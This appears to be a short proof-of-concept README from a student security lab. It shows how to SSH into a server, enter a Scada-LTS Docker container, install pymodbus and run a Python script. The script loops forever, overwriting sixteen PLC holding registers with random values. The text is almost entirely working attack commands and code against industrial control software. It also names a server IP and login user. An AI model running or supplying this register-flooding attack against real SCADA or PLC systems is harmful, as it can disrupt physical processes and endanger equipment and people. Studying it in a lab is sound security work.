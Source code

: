 # Proof of concept
Connect to the server.
```
ssh -D 1080 mcsestudent@145.52.126.50
```
Enter the Scada-LTS container.
```sh
sudo docker exec -it scadalts /bin/bash
```

Install pip and [pymodbus](https://pypi.org/project/pymodbus/)
```sh
apt update && apt install python3-pip -y
pip install pymodbus
```

Run the code. There is no `nano` or `vim` but we can use `echo` to write to a file.
```py
import random
from pymodbus.client import ModbusTcpClient

PLC_IP = "plc-zone1" # Replace with your PLC or Modbus server IP
REGISTER_START = 1000  # First holding register
NUM_REGISTERS = 16  # 32 bytes = 16 registers (each register = 2 bytes)

client = ModbusTcpClient(PLC_IP)

try:
    while True:
        # Generate 16 random values (each between 0 and 65535)
        values = [random.randint(0, 65535) for _ in range(NUM_REGISTERS)]

        # Write multiple registers at once
        response = client.write_registers(REGISTER_START, values)
        
        print(f"Overschreven registers {REGISTER_START} - {REGISTER_START + NUM_REGISTERS - 1} met waarden {values}")

except KeyboardInterrupt:
    print("Test gestopt.")
finally:
    client.close()
```
```sh
python3 test.py
```

The registers should now star being overwritten with random data.

![](img/random_modbus.png)

![](img/scada_poc1.jpg)

![](img/scada_poc2.jpg)
